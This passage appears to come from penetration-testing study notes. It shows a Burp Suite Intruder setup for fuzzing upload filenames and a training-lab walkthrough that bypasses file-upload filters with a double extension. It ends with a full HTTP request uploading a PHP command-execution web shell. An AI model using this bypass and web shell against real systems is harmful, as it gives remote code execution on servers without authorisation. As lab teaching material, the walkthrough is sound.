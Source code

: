 
### Burp Suite Fuzzing Setup

**Intruder Configuration:**
1. **Intercept upload request**
2. **Set payload position in filename**
3. **Load character injection wordlist**
4. **Disable URL encoding in payload processing**
5. **Run attack and analyze responses**

**Payload Position:**
```http
Content-Disposition: form-data; name="uploadFile"; filename="§wordlist_payload§"
```

---

## HTB Academy Lab Solution

### Lab Information
- **Objective:** Bypass blacklist and whitelist to upload PHP script
- **Target:** Read \`/flag.txt\` using uploaded shell
- **Techniques:** Double extensions, character injection

### Step-by-Step Walkthrough

**Step 1: Reconnaissance**
```bash
# Test basic PHP upload
filename="shell.php" → BLOCKED

# Test image upload  
filename="test.jpg" → SUCCESS

# Confirms whitelist filtering
```

**Step 2: Double Extension Bypass**
```bash
# Test: shell.jpg.php
# Whitelist: PASS (contains .jpg)
# Execution: SUCCESS (ends with .php)
```

**Step 3: Upload Web Shell**
```http
POST /upload.php HTTP/1.1
Content-Type: multipart/form-data; boundary=--boundary

------boundary
Content-Disposition: form-data; name="uploadFile"; filename="shell.jpg.php"
Content-Type: image/jpeg

<?php system(\$_REQUEST['cmd']); ?>
------boundary--
```
